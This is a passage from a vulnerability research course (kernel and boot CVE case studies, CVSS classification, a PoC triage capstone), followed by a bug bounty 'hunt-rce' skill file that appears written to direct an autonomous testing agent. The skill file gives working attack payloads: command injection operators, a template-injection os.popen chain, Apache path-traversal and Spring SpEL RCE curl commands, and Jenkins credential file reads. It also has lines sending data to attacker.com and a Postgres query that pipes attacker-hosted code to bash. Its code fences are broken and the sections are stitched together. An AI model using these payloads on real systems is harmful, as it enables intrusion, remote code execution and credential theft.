- **The Attack**: An attacker could create a `.library-ms` file pointing to `\\attacker-server\share`. When a user browsed a folder containing this file (even without opening it), Explorer would send NTLMv2 authentication credentials to the attacker's server.
- **The Impact**: Credential harvesting via automatic NTLM authentication. Attacker captures NTLMv2 hashes for offline cracking or relay attacks. Similar issues exist with NTFS features allowing chained RCE (CVE-2025-24993).
- **The Fix**: Windows patches restrict automatic network authentication during file parsing and add warnings for UNC paths in library files.
- **Why It Matters**: File format parsers in GUI components often have network access capabilities. Credential leaks through automatic authentication are valuable for lateral movement in enterprise environments.

### Boot and Security Feature Bypass Vulnerabilities

**What They Are**: Vulnerabilities that bypass boot-time security protections or kernel hardening features. Emerging prominently in 2024-2025 exploits for persistence and rootkit deployment.

**Case Study - CVE-2025-47827 (Secure Boot Bypass)**:

- **The Bug**: In IGEL OS before v11, the `igel-flash-driver` module improperly verified cryptographic signatures, allowing a crafted SquashFS root filesystem to be mounted and bypass Secure Boot protections.
- **The Attack**: With physical access or admin control, an attacker could leverage the signature verification flaw during boot to load untrusted kernel code.
- **The Impact**: Complete system compromise with kernel-level persistence. Enables evil-maid attacks, bypasses BitLocker, Windows Defender, and EDR solutions. Rootkit survives OS reinstallation if firmware is not reflashed.
- **The Fix**: Vendor guidance for IGEL OS v10 is limited due to end-of-support; mitigation guidance focuses on revocation/DBX updates and upgrading to supported versions enforcing strict signature validation.
- **Why It Matters**: Secure Boot bypasses enable persistent compromise below the OS level. Physical access scenarios (stolen laptops, interdiction) and supply chain attacks leverage these vulnerabilities for long-term persistence.

**Kernel Hardening Evasion**:

**Case Study - CVE-2025-53136 (Windows Kernel Pointer Leak)**:

- **The Bug**: Multiple Windows kernel functions exposed kernel memory addresses through information disclosure vulnerabilities. Specifically, NtQuerySystemInformation and related APIs leaked kernel heap and pool addresses.
- **The Attack**: An attacker could call specific system information query APIs to leak kernel addresses, defeating Kernel Address Space Layout Randomization (KASLR). These leaks are chained with other vulnerabilities (UAF, OOB write) to reliably exploit kernel bugs.
- **The Impact**: Information disclosure enabling exploitation of kernel vulnerabilities. KASLR bypass is a prerequisite for modern kernel exploitation. Often combined with vulnerabilities like CVE-2023-21768 (AFD.sys) for full privilege escalation chains.
- **The Fix**: Microsoft added restrictions to information query APIs, reducing precision of returned information or requiring elevated privileges for sensitive queries.
- **Why It Matters**: Kernel hardening features (KASLR, SMEP, SMAP, Control Flow Guard) require information leaks to bypass. Pointer leaks are critical primitives in exploit chains and are actively targeted by attackers.

### Key Takeaways

1. **Drivers are high-risk**: expansive IOCTL surfaces and complex descriptor parsing create memory corruption and arbitrary read/write.
2. **IOCTL/syscall handlers are high-value targets**: Size confusion and function pointer validation failures provide powerful LPE primitives without requiring traditional buffer overflows.
3. **Concurrency bugs enable sophisticated exploits**: Double-fetch, race conditions and locking misuse are difficult to reproduce but provide reliable exploitation when timing is controlled.
4. **Arbitrary write is the ultimate primitive**: Whether achieved through IOCTL handlers, PreviousMode corruption, or RCU misuse, arbitrary kernel write enables privilege escalation, security callback disabling, and rootkit deployment.
5. **User namespaces expand attack surface**: Many kernel vulnerabilities (netfilter, io_uring) become exploitable from unprivileged contexts when user namespaces grant capabilities like `CAP_NET_ADMIN`.
6. **Defense requires atomic operations**: TOCTOU vulnerabilities demonstrate that check-then-use patterns are inherently racy; atomic check-and-use operations, proper locking, and defensive copying are essential.
7. **Physical/adjacent vectors matter**: USB/Thunderbolt/emulated devices are attacker-controlled input.

### Discussion Questions

1. Which testing strategies most effectively surface IOCTL handler bugs in complex drivers?
2. Why are IOCTL handlers such prevalent sources of kernel vulnerabilities, and what validation patterns should be mandatory for all IOCTL implementations?
3. How can developers design IOCTL interfaces to prevent size confusion and arbitrary function call vulnerabilities while maintaining performance and flexibility?
4. What monitoring best detects Secure Boot tampering and unexpected kernel module loads?
5. Which container runtime settings most reduce OverlayFS and mount attack viability?
6. How should organizations treat removable and emulated devices to minimize driver-exposed risk?

## Day 6: Impact Assessment and Vulnerability Classification

- **Goal**: Learn to assess and classify vulnerabilities by their real-world impact and exploitability.
- **Activities**:
  - _Reading_:
    - [CVSS v4.0 Specification](https://www.first.org/cvss/v4.0/specification-document)
    - [CVSS v3.1 Specification (legacy, still widely used)](https://www.first.org/cvss/v3.1/specification-document)
    - [Exploit Prediction Scoring System (EPSS)](https://www.first.org/epss/)
  - _Online Resources_:
    - [MITRE ATT&CK Framework](https://attack.mitre.org/)
    - [Common Weakness Enumeration (CWE)](https://cwe.mitre.org/)
    - [National Vulnerability Database](https://nvd.nist.gov/)
  - _Exercise_: Classify 10 real CVEs by type, impact, and exploitability

### Understanding Impact Categories

**Remote Code Execution (RCE)**:

- **Definition**: Attacker can execute arbitrary code on the target system remotely without physical access.
- **Impact**: Highest severity - complete system compromise possible.
- **Examples from This Week**:
  - CVE-2024-27130 (QNAP): Stack overflow → RCE
  - CVE-2024-2883 (Chrome ANGLE): UAF → RCE via heap corruption
  - CVE-2023-4863 (libWebP): Heap overflow → RCE
  - CVE-2024-7971 (V8): Type confusion → RCE via arbitrary R/W
  - CVE-2023-35086 (ASUS Router): Format string → RCE via stack overwrite

**Local Privilege Escalation (LPE)**:

- **Definition**: Attacker with limited access can gain higher privileges (user → root/SYSTEM).
- **Impact**: High severity - allows persistence, defense evasion, lateral movement.
- **Examples**:
  - Windows Kernel TOCTOU (CVE-2024-26218): User → SYSTEM via race condition exploitation
  - Driver IOCTL bugs: Standard user → Administrator/SYSTEM

**Information Disclosure / Info Leak**:

- **Definition**: Attacker can read data they shouldn't have access to.
- **Impact**: Medium to High - often chained with other bugs to bypass ASLR.
- **Examples**:
  - Format string leaks: Bypass ASLR by leaking libc addresses
  - Speculative execution (Spectre): Leak kernel memory from userland
  - Uninitialized memory reads: Leak heap/stack contents

**Denial of Service (DoS)**:

- **Definition**: Attacker can make a service unavailable without gaining code execution.
- **Impact**: Low to Medium - disrupts availability but doesn't compromise confidentiality/integrity.
- **Examples**:
  - Decompression bombs: Exhaust memory/CPU
  - Algorithmic complexity attacks: Trigger worst-case performance
  - Crash bugs without exploitable primitives

### Exploitability Factors

**Attack Complexity**:

- **Low**: Attacker can repeatedly exploit with minimal effort.
- **High**: Requires complex preparation, rare conditions, or user interaction.

**Example Comparison**:

- **Low Complexity**: Buffer overflow in network daemon (CVE-2024-27130)
- **High Complexity**: Browser type confusion requiring specific JavaScript execution order (CVE-2024-7971)

**Attack Vector**:

- **Network**: Exploitable remotely over network (highest threat)
- **Adjacent**: Requires local network access
- **Local**: Requires local access to system
- **Physical**: Requires physical access

**Privileges Required**:

- **None**: No authentication needed
- **Low**: Standard user access required
- **High**: Administrative access required

**User Interaction**:

- **None**: Fully automated exploitation
- **Required**: Victim must perform action (click link, open file)

### CVSS Scoring System

**Base Score Components** (Intrinsic qualities):

- **Attack Vector** (AV): Network/Adjacent/Local/Physical
- **Attack Complexity** (AC): Low/High
- **Privileges Required** (PR): None/Low/High
- **User Interaction** (UI): None/Required
- **Scope** (S): Unchanged/Changed (does exploit affect resources beyond vulnerable component?)
- **Impact to** Confidentiality (C), Integrity (I), Availability (A): None/Low/High

**Temporal Score Components** (Change over time):

- **Exploit Code Maturity**: Not Defined/Proof-of-Concept/Functional/High
- **Remediation Level**: Official Fix/Temporary Fix/Workaround/Unavailable
- **Report Confidence**: Unknown/Reasonable/Confirmed

**Environmental Score** (Organization-specific):

- Modified Base Metrics based on local environment
- Considers organizational security requirements

**Score Ranges**:

- 0.0: None
- 0.1-3.9: Low
- 4.0-6.9: Medium
- 7.0-8.9: High
- 9.0-10.0: Critical

### Exercise: Classify 10 Real CVEs

For each CVE below, determine:

1. **Vulnerability Class** (Stack overflow, UAF, Type confusion, etc.)
2. **Impact Type** (RCE, LPE, Info Leak, DoS)
3. **CVSS Score Estimate** (Low/Medium/High/Critical)
4. **Exploitability** (Low/Medium/High complexity)
5. **Priority** (How urgently should this be patched?)

**Cases for Classification**:

1. **CVE-2024-27130** (QNAP Stack Overflow)
   - Class: ?
   - Impact: ?
   - CVSS: ?
   - Exploitability: ?
   - Priority: ?

2. **CVE-2024-2883** (Chrome ANGLE UAF)
   - Class: ?
   - Impact: ?
   - CVSS: ?
   - Exploitability: ?
   - Priority: ?

3. **CVE-2023-4863** (libWebP Heap Overflow)
   - Class: ?
   - Impact: ?
   - CVSS: ?
   - Exploitability: ?
   - Priority: ?

4. **CVE-2024-7971** (V8 TurboFan Type Confusion)
   - Class: ?
   - Impact: ?
   - CVSS: ?
   - Exploitability: ?
   - Priority: ?

5. **CVE-2023-35086** (ASUS Router Format String)
   - Class: ?
   - Impact: ?
   - CVSS: ?
   - Exploitability: ?
   - Priority: ?

6. **CVE-2022-34718** (Windows tcpip.sys EvilESP)
   - Class: ?
   - Impact: ?
   - CVSS: ?
   - Exploitability: ?
   - Priority: ?

7. **7-Zip Symlink Path Traversal** (CVE-2025-11001/11002)
   - Class: ?
   - Impact: ?
   - CVSS: ?
   - Exploitability: ?
   - Priority: ?

8. **CVE-2023-4155** (Linux KVM AMD SEV Double-Fetch)
   - Class: ?
   - Impact: ?
   - CVSS: ?
   - Exploitability: ?
   - Priority: ?

9. **CVE-2021-24105** (Dependency Confusion Attack)
   - Class: ?
   - Impact: ?
   - CVSS: ?
   - Exploitability: ?
   - Priority: ?

10. **CVE-2023-44487** (HTTP/2 Rapid Reset)
    - Class: ?
    - Impact: ?
    - CVSS: ?
    - Exploitability: ?
    - Priority: ?

### Common Mistake Patterns in Classification

1. **Confusing Impact with Exploitability**:
   - High impact doesn't mean easy to exploit
   - Critical CVE might have high complexity

2. **Ignoring Real-World Context**:
   - Lab exploit != Production exploitation
   - Mitigations affect real-world exploitability

3. **Over-relying on CVSS**:
   - CVSS is standardized but imperfect
   - Context matters: SQL injection in admin panel vs. public-facing

4. **Neglecting Chaining**:
   - Info leak alone: Medium severity
   - Info leak + RCE primitive: Critical
   - Consider full attack chain

### Industry Standards and Reporting

**Responsible Disclosure**:

1. Report to vendor through appropriate channel (security@, bug bounty)
2. Allow reasonable time for fix (typically 90 days)
3. Coordinate public disclosure
4. Publish technical details after fix available

**Reporting Templates**:

1. **Summary**: One-sentence description
2. **Impact**: What can attacker achieve?
3. **Affected Versions**: Precisely list versions
4. **Prerequisites**: Auth required? User interaction?
5. **Steps to Reproduce**: Detailed, repeatable
6. **Proof of Concept**: Code/commands to demonstrate
7. **Suggested Fix**: If applicable
8. **References**: Related CVEs, papers

### Key Takeaways

1. **Impact != Exploitability**: Critical bugs can be hard to exploit; easy exploits might have limited impact.
2. **Context is crucial**: Same bug class has different severity in different contexts.
3. **Standardization helps**: CVSS provides common language, but isn't perfect.
4. **Chaining amplifies impact**: Multiple medium bugs can create critical exploit chain.
5. **Reporting matters**: Clear, detailed reports help vendors fix vulnerabilities faster.

### Discussion Questions

1. How should organizations prioritize patching when faced with hundreds of vulnerabilities?
2. What are the limitations of CVSS scoring, and how can they be addressed?
3. When is it ethical to publicly disclose a vulnerability before a patch is available?
4. How do bug bounty programs affect the economics of vulnerability research and disclosure?

## Day 7: Capstone Project — Recent Vulnerability Triage and PoC Validation

- **Goal**: Apply the week's concepts by selecting several 2024–2025 vulnerabilities, correctly classifying and understanding them, locating and safely testing PoCs, and explaining what the vulnerability is, how it works, and how it can be chained.
- **Activities**:
  - **Select Targets (4–6 CVEs)**:
    - Choose recent CVEs from 2024–2025 spanning at least 3 categories: memory corruption, logic/auth, parser/media, kernel/drivers, networking/protocol, boot/supply chain.
    - Prefer items with public advisories and PoCs or detailed technical analyses.
  - **For Each CVE, Complete the Following**:
    1. **Identify**: Product/component, affected versions, vulnerability class (CWE), primary impact (RCE/LPE/Info Leak/DoS). Collect links to vendor advisory, NVD, and KEV (if listed).
    2. **Understand**: Summarize the root cause and vulnerable code path or state machine. Capture the key preconditions and trust boundaries.
    3. **PoC Discovery and Test**: Find a public PoC; verify authenticity; pin to a commit or release tag; note all prerequisites. If no PoC exists, move on we will get to it later on. try to understand how does that poc works
    4. **Explain (what/how/chain)**: In ~150–250 words, explain:
       - What the vulnerability is (class, component, versions, impact)
       - How it works (root cause and exploit path)
       - How it could be chained (e.g., info leak → ASLR bypass → RCE; sandbox escape → LPE)
    5. **Risk & Priority**: Provide CVSS v3.1/v4 estimate, EPSS (if available), KEV status, and remediation priority in a realistic enterprise context.
  - **Chaining Exercise (At least 1 chain)**:
    - Design a plausible multi-step chain using two or more selected CVEs (or one CVE plus a generic primitive), describing preconditions, boundary crossings, and final impact.

### Deliverables

- A short report (“Vulnerability Card”) per CVE and one chaining write-up.
- PoC references pinned to commit SHA/tag; note any modifications you made.

# CVE-YYYY-NNNNN – Title

- Class / CWE:
- Impact (RCE/LPE/Info Leak/DoS):
- Affected product & versions:
- Sources: [Vendor advisory], [NVD], [KEV], [PoC link]
- Lab environment:
  - Host OS / kernel / packages:
  - Target build/version:
  - Isolation controls (snapshot, no outbound):
- Reproduction steps:

1. ...
2. ...

- How it works (root cause and exploitation path):
- Chaining opportunities (with what and why it works):
- Risk rating: CVSS v3.1/v4 (your calc), EPSS, KEV status
```

### Suggested Sources

- NVD, CISA KEV, vendor advisories and security bulletins
- Google Project Zero, ZDI, ICS-CERT advisories
- Exploit-DB, GitHub code search (e.g., `CVE-2025 poc`, `proof-of-concept`)
- Academic/industry blogs with technical write-ups

### Submission Checklist

- `report.md` with one Vulnerability Card per CVE and one chain write-up
- Links to advisories/NVD/KEV, PoC URLs with commit SHAs/tags
- Environment details and exact reproduction steps
- Evidence artifacts (logs/PCAPs/crash traces/screenshots)
- Mitigation/detection guidance and remediation priority

<!-- Written by AnotherOne from @Pwn3rzs Telegram channel -->


### From `hunt-skills/hunt-rce/SKILL.md`

## Autonomous Testing Priority

**Content-type is the #1 silent failure mode for command injection.**

Traditional web forms use `Content-Type: application/x-www-form-urlencoded`. If you send a JSON body (`{"host":"127.0.0.1;id"}`) to a form endpoint, the server reads `request.form['host']` and gets nothing — the app executes normally with no injection, returning a plausible 200 response. You get a false negative with no indication anything went wrong.

**Rule:** If the page has an HTML form (`<form method="POST">`), use form-encoding. If the path is `/api/...` or the response is JSON, use JSON.

**Command injection operators to try (in order of prevalence):**
```
value;id        ← Unix semicolon (most common)
value|id        ← pipe
value&&id       ← AND
value$(id)      ← subshell
value`id`       ← backtick
```

**Proof:** OS command output (`uid=N(username) gid=...`) in the response body confirms code execution. The output may be HTML-wrapped — that still counts. If the response is otherwise normal (200, expected content) with the command output appended or embedded, exploitation is confirmed.

---

## Crown Jewel Targets

RCE vulnerabilities command the highest payouts in bug bounty programs because they grant attackers direct execution control over target infrastructure. The highest-value targets are:

**Highest-paying asset types:**
- **Enterprise server products** (GitHub Enterprise Server, self-hosted GitLab) — privilege escalation chains from low-privileged console roles to root SSH access consistently pay critical/high
- **Supply chain / package registries** — dependency confusion attacks against npm, PyPI, etc. hit critical severity across every major program
- **Cloud-native infrastructure** — exposed Kubernetes API servers, ingress controllers, and misconfiqured CI/CD pipelines
- **Mobile app backends and OAuth flows** — where server-side processing of attacker-controlled data meets execution contexts
- **Admin/management consoles** — template injection in configuration panels reaches root with a single payload

**Why this class pays most:**
- Blast radius is infrastructure-wide, not user-scoped
- Proof-of-concept is unambiguous — shell output is undeniable
- Fix requires architectural changes, not just a patch
- Programs cannot afford false negatives on RCE

---

### URL Patterns
```
/management-console/*
/admin/settings/*
/api/v*/exec
/api/v*/run
/webhook/*
/_internal/*
/import?url=
/render?template=
/preview?format=
```

### Response Headers / Tech Stack Signals
```
X-Powered-By: Express          # Node.js — npm dependency surface
X-Powered-By: Phusion Passenger
Server: nginx (ingress-nginx)  # Kubernetes ingress — path field injection
X-Runtime: Ruby                # Rails ActiveStorage, RDoc, REXML attack surface
Content-Type: application/yaml # YAML parsers (SnakeYAML, Psych) — deserialization
X-GitHub-Enterprise-Version    # GHAS — nomad template, collectd, syslog-ng injection
```

### JavaScript / Frontend Signals
```javascript
// Look for these patterns in JS bundles
fetch('/api/exec', {method:'POST', body: cmd})
eval(userInput)
new Function(userInput)
document.write(unsafeData)
window.location = userControlled  // URL scheme bypass → JS execution
```

### Tech Stack Signals
| Signal | RCE Vector |
|--------|-----------|
| `nomad` in config UI | Template injection → `{{ ... }}` |
| `syslog-ng` config editable | Config injection → `program()` destination |
| `collectd` config editable | Plugin exec injection |
| `SnakeYAML` in classpath | `!!javax.script.ScriptEngineManager [...]` |
| npm `package.json` internal scope | Dependency confusion |
| ingress-nginx annotations | Path field regex bypass |

---

## Step-by-Step Hunting Methodology

1. **Map the execution contexts first.** Before testing payloads, identify everywhere user-controlled input touches an execution layer: template engines, shell commands, YAML parsers, file paths used in operations, package resolution, and configuration files.

2. **Enumerate admin/management interfaces.** Crawl for `/management-console`, `/admin`, `/_internal`, `/setup`, `/config`. These surfaces are lower-auth and higher-privilege — the GHES cluster produced 6 separate RCEs from one console role.

3. **Check template injection in every config field.** In any management UI that accepts free-form configuration (log destinations, notification formats, proxy settings), submit `{{7*7}}`, `${7*7}`, `<%= 7*7 %>`. Look for `49` in responses, logs, or DNS callbacks.

4. **Test YAML/XML/serialized input for code execution.** Any endpoint accepting `Content-Type: application/yaml` or `application/xml`:
   - SnakeYAML: submit `!!javax.script.ScriptEngineManager` gadget
   - Ruby YAML: submit `!ruby/object:Gem::Installer` gadget
   - REXML: submit billion-laughs / quadratic blowup XML

5. **Hunt dependency confusion.** For every npm/pip/gem internal package name visible in JS bundles, error messages, or `package.json` in public repos — register a higher-versioned package on the public registry pointing to a canary callback.

6. **Check file path operations for traversal → execution.** ActiveStorage, file upload handlers, symlink operations: submit `../../../etc/cron.d/shell` as filename. Confirm write then trigger execution.

7. **Audit Kubernetes/cloud-native surfaces.** Run `kubectl` against any exposed API server. Check ingress annotations, especially `nginx.ingress.kubernetes.io/configuration-snippet` and `spec.rules.http.paths.path` for Lua/regex injection.

8. **Test OAuth redirect URI and URL scheme handlers.** Mobile apps processing `javascript:` or `intent://` URIs via OAuth redirect may execute JavaScript. Try `javascript:alert(document.cookie)` and custom scheme URIs.

9. **Verify with out-of-band callbacks.** Never rely solely on visible output. Use Burp Collaborator, interactsh, or `canarytokens.org` DNS tokens. Blind RCE is common in backend processors.

10. **Chain privileges.** A low-severity misconfiguration (editor role, CSRF, path traversal) combined with an RCE primitive equals critical. Always ask: "what can I reach from here?"

---

# Generic polyglot — works across Jinja2, Twig, Freemarker, Pebble, Velocity
{{7*7}}${7*7}#{7*7}<%= 7*7 %>*{7*7}
{{'7'*7}}
{{config}}
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read()}}

# Nomad template injection (Go text/template)
{{ env "NOMAD_SECRET_ID" }}
{{ with secret "secret/data/prod" }}{{ .Data.password }}{{ end }}
{{ runscript "id" }}
```

### Apache HTTP Server alias path traversal (CVE-2021-41773 / CVE-2021-42013)

Path normalization bug in Apache 2.4.49 (and the 2.4.50 patch-bypass) lets an attacker escape DocumentRoot via dot-encoded segments **through configured alias paths**. The same primitive yields very different impact depending on which alias accepts the traversal:

- Alias without `Options +ExecCGI` (e.g. `/icons/`) → arbitrary file read only
- Alias with `Options +ExecCGI` (e.g. `/cgi-bin/`) → arbitrary code execution

**Version fingerprint:**
```bash
curl -sI http://target/ | grep -i "Server:"

# Patched:    Apache/2.4.51+
```

**File-read test (any alias):**
```bash
curl --path-as-is "http://target/icons/.%2e/.%2e/.%2e/.%2e/etc/passwd"

# Note: --path-as-is is REQUIRED — curl normalizes %2e by default
```

**RCE test (cgi-enabled alias only):**
```bash
curl --path-as-is -X POST \
  -d "echo Content-Type: text/plain; echo; id; uname -a; hostname" \
  "http://target/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh"
```

**Triage discipline note:** when the same path-traversal primitive works on multiple aliases but only one is CGI-enabled, the **maximum** impact is the severity — not the average. A "file read" finding on `/icons/` should always be escalated by re-probing `/cgi-bin/` (and any other alias visible from `<Directory>` blocks in the server-info disclosure or response patterns). See `triage-validation` Pre-Severity Gate.

### Spring Cloud Function SpEL injection (CVE-2022-22963)

Spring Cloud Function ≤ 3.2.2 (and ≤ 3.1.6) evaluates the `spring.cloud.function.routing-expression` header as a SpEL expression on the `/functionRouter` endpoint without auth, before any routing logic. Wide deployment in AWS Lambda + Cloud Run + on-prem function platforms. Often exposed externally because `/functionRouter` auto-registers and devs don't add an explicit gate.

**Detection:**
- Spring-style port 8080 with `/uppercase`, `/lowercase`, or arbitrary single-word function endpoints responding 200
- Confirm with `curl -s http://target:8080/uppercase -H "Content-Type: text/plain" --data-binary "test"` → returns `TEST`
- Version banner via `/actuator/info` or response headers

**Exploit:**
```bash
curl -X POST http://target:8080/functionRouter \
  -H "Content-Type: text/plain" \
  -H 'spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec(new String[]{"id"})' \
  --data "x"
```

The `new String[]{"...", "..."}` array form avoids shell-quoting issues that break the more common `.exec("id")` form when the SpEL header contains parentheses or quotes.

**Generalizes to:** any Spring application that takes user input into a `SpelExpressionParser.parseExpression()` call, especially when delivered via header / query-param routes that bypass normal auth filters. See `hunt-ssti` for the broader SpEL fingerprinting (`*{7*7}` = Spring Thymeleaf).

### Kubernetes Exposed API Check
```bash
curl -sk https://TARGET:6443/api/v1/namespaces/default/pods \
  -H "Authorization: Bearer $(cat /var/run/secrets/kubernetes.io/serviceaccount/token)"
kubectl --insecure-skip-tls-verify -s https://TARGET:6443 get pods --all-namespaces
```

# Payload to confirm blind RCE via DNS
curl "http://$(id | base64).YOUR-INTERACTSH-URL/"
nslookup $(whoami).attacker.com
wget http://attacker.com/$(cat /etc/hostname)
```

### Args4j `@`-prefix file expansion (Jenkins CVE-2024-23897 family)

Java CLIs built on the `args4j` library default to `expandAtFiles=true`, which expands `@filename` arguments by reading the file and treating each line as a separate command argument. When such a CLI is exposed over HTTP (Jenkins CLI is the canonical case), the server-side error message echoes failed arguments back — turning argument echoing into an arbitrary file-read primitive. Unauthenticated when "anonymous read access" is on (Jenkins default for fresh installs).

**Detection:**
- Target exposes `/cli` and `/jnlpJars/jenkins-cli.jar` (Jenkins family)
- Or: any Java app whose CLI source uses args4j without `expandAtFiles=false`

**Test (Jenkins):**
```bash

# Get the legit CLI jar from the target
curl -sLO http://target:8080/jnlpJars/jenkins-cli.jar

# First line of file leaks via 'help' error
java -jar jenkins-cli.jar -s http://target:8080/ -http help 1 @/etc/passwd

# Full file leaks via 'connect-node' (every line returned as a "no such agent" error)
java -jar jenkins-cli.jar -s http://target:8080/ -http connect-node @/etc/passwd

# Recon: env vars + JENKINS_HOME path
java -jar jenkins-cli.jar -s http://target:8080/ -http help 1 @/proc/self/environ
```

**Crown-jewel files after JENKINS_HOME confirmed:**
- `/var/jenkins_home/secret.key` — master encryption key for stored credentials
- `/var/jenkins_home/secrets/master.key` — derives the encryption key
- `/var/jenkins_home/credentials.xml` — credential store (encrypted with secret.key — pair with offline decrypt tools)
- `/var/jenkins_home/users/*/config.xml` — per-user API tokens (often unencrypted)
- `/var/jenkins_home/jobs/*/config.xml` — pipeline configs that may inline AWS keys, SSH keys, registry tokens

**Pattern generalizes beyond Jenkins.** Any Java service that:
1. Embeds args4j (most enterprise Java CLIs since 2010s)
2. Exposes the CLI handler over HTTP (Jenkins, Hudson forks, custom internal tools)
3. Returns argument-parsing errors verbatim to the client

→ same arbitrary-read primitive applies. Validation via `triage-validation` Reproducibility Gate: confirm the leak on at least 2 distinct commands (e.g., `help` and `connect-node`) and verify the file content actually appears in the response, not just a generic 500.

# Command injection sinks
grep -rn "exec\|system\|popen\|spawn\|eval\|subprocess" --include="*.rb" .
grep -rn "Runtime.exec\|ProcessBuilder\|ScriptEngine" --include="*.java" .

# Unsafe YAML load
grep -rn "yaml\.load\b\|YAML\.load\b" . # without Loader= argument
grep -rn "Yaml()\|new Yaml()" --include="*.java" .
```

---

## Common Root Causes

**1. Configuration-as-code with insufficient sanitization**
Administrators edit configuration files (syslog-ng, collectd, nomad) through web UIs. Developers assume admin == trusted, so they pass field values directly into config files that support execution primitives (`program()` destinations, exec plugins, template functions).

**2. Template engines in privileged contexts**
Go's `text/template`, Freemarker, Velocity, and Twig are used for system configuration rendering. When user-controlled strings reach these engines without sandboxing, arbitrary code follows.

**3. Dependency confusion / namespace squatting**
Internal packages published to private registries without locking the public registry namespace. Build systems that prefer public registries by default, or that fall through to public when the private registry lacks a package.

**4. Unsafe deserialization of YAML/XML**
Developers use `YAML.load()` without safe loaders, or `new Yaml()` (SnakeYAML) without type restrictions. Ruby's `YAML.load` and Java's SnakeYAML both support arbitrary object instantiation by default.

**5. Path traversal in file operation chains**
Filenames accepted from user input are used in filesystem operations without normalization. Rails ActiveStorage, file upload handlers, and rdoc generators trust the `filename` parameter.

**6. Assuming low-privilege roles can't reach execution contexts**
The GHES management console granted "Editor" roles access to configuration fields that touched shell execution. Developers assumed privilege boundaries existed at a higher architectural level.

**7. Missing input validation on infrastructure-facing fields**
Ingress/nginx annotation values, Kubernetes spec fields, and webhook URLs are treated as opaque strings — but the downstream processor (nginx config generator, regex engine) interprets them as code.

---

# Bypass using $IFS and encodings
cat${IFS}/etc/passwd
{cat,/etc/passwd}
$'\x63\x61\x74' /etc/passwd  # hex encoding
$(printf '\x63\x61\x74') /etc/passwd

# Mobile apps often block javascript: but miss:
jAvAsCrIpT:alert(1)          # case variation
javascript&#58;alert(1)      # HTML entity
javascript:void(alert(1))    # void wrapper
intent://attacker.com#Intent;scheme=javascript;...
data:text/html,<script>alert(1)</script>
```

# If !!java.* is blocked, try legitimate classes with side effects
!!com.sun.rowset.JdbcRowSetImpl
  dataSourceName: 'ldap://attacker.com/a'
  autoCommit: true

# Blind — use DNS callback instead of output
{{ lipsum.__globals__.os.popen('nslookup $(id).attacker.com').read() }}
```

# Ruby
send(:system, "id")
method(:exec).call("id")
Kernel.send(:`, "id")
Object.const_get(:Kernel).system("id")
```

---

## Gate 0 Validation

Before writing the report, confirm all three:

**1. What can the attacker DO right now?**
You must be able to demonstrate one of: execute `id`/`whoami` and capture the output, make a DNS/HTTP callback from the target server to your controlled host, write a file to the filesystem, or read `/etc/passwd`. "Might be able to" fails this gate.

**2. What does the victim LOSE?**
Articulate the concrete impact: source code exfiltration, credential theft (database, API keys, cloud IAM), lateral movement to internal network, supply chain compromise of downstream users, data destruction. Generic "attacker gains RCE" fails — name the crown jewels at risk.

**3. Can it be reproduced in 10 minutes from scratch?**
Write the reproduction steps before submitting. If you need more than: (a) a Burp request, (b) a payload file, and (c) a listener — simplify it. If reproduction requires a specific race condition, timing, or ephemeral state, document the exact conditions. Triagers who can't reproduce in one attempt will downgrade or close the report.

---

## Real Impact Examples

**Scenario A: Management Console Role → Root Shell (Enterprise Server)**
An attacker with a low-privileged "Management Console Editor" account on a GitHub Enterprise Server instance identified that the syslog-ng configuration UI accepted a free-form "destination" field. By injecting a `program()` destination containing a reverse shell command, the attacker caused the syslog-ng daemon (running as root) to execute arbitrary OS commands upon log receipt. The same attack surface was independently found in collectd's exec plugin configuration and nomad's job template rendering — all reachable from the same editor role. Impact: full root compromise of the enterprise git server hosting all organization source code, secrets, and CI/CD pipelines.

**Scenario B: Dependency Confusion → RCE on Build Infrastructure**
A researcher enumerated internal npm package names by reviewing JavaScript bundles served from target CDN endpoints and public GitHub repositories belonging to a major payments platform. Several `@internal/*` scoped packages were referenced but not registered on the public npm registry. The researcher published higher-versioned packages with identical names containing a postinstall script that executed a canary callback. Within hours, the callback fired from multiple IP addresses belonging to the target's CI/CD build farm — confirming that every npm install on their build infrastructure executed attacker-controlled code. The same technique worked against a ride-sharing platform's internal tooling. Impact: arbitrary code execution on build servers with access to production deployment credentials and signing keys.

**Scenario C: Exposed Kubernetes API → Cluster Takeover**
During reconnaissance on a target's cloud infrastructure, a researcher discovered a publicly accessible Kubernetes API server (port 6443) with overly permissive RBAC. Using default service account tokens and unauthenticated API calls, the researcher enumerated running pods, retrieved secrets from the default namespace (including database credentials and third-party API keys), and demonstrated the ability to spawn privileged pods with `hostPID: true` — enabling full node compromise. The Kubernetes cluster managed the target's core production services. Impact: access to all stored secrets, ability to deploy malicious workloads, and pivot to every service in the cluster.

---

## Chains & Compositions (Senior Hunting)

RCE in 2020-2026 rarely arrives at a single sink. Every modern RCE is composed of (1) a primitive that puts attacker bytes onto the host or into a deserialization pipeline, plus (2) an exec gadget that interprets them. The chains below decompose six high-paying RCE shapes into their primitive components — each step is testable in isolation, the chain is what pays.

### Chain 1 — SSRF + IMDSv1 + Leaked IAM Role → Lambda Invoke → Backend RCE (Capital One pattern)

- **A.** SSRF on a server-side fetcher (link-preview, image proxy, webhook URL, PDF generator). Confirmed via Burp Collaborator OOB callback.
- **B.** Point SSRF at AWS IMDSv1 metadata: `http://169.254.169.254/latest/meta-data/iam/security-credentials/<role>` → returns temporary STS credentials.
- **C.** Use the credentials with `aws lambda invoke --function-name <internal-function>` — Lambda runs server-side code that the attacker can influence via the function's input parameter.
- **Impact:** Full backend RCE in the Lambda context, plus pivot path to whatever else the role grants (S3 / DynamoDB / RDS).
- **Real shape:** Capital One 2019 — $80M civil penalty, attacker conviction. SSRF in a WAF on EC2 → IMDSv1 → IAM role → 106M-record breach via S3 sync. Cross-refs `hunt-ssrf` Disclosed Report Citation #6.

### Chain 2 — SQLi + `COPY FROM PROGRAM` → Direct OS-level RCE on Postgres Host

- **A.** SQLi confirmed on a Postgres backend (boolean/time-based works; UNION not needed).
- **B.** The DB user has either `pg_read_server_files` or `COPY` privileges (default for many AWS RDS / Google Cloud SQL roles when "admin" databases exist).
- **C.** Stack a query: `'; COPY users FROM PROGRAM 'curl http://attacker/x.sh | bash'; --` → Postgres shells out to `/bin/sh -c <attacker command>` → RCE as `postgres` user.
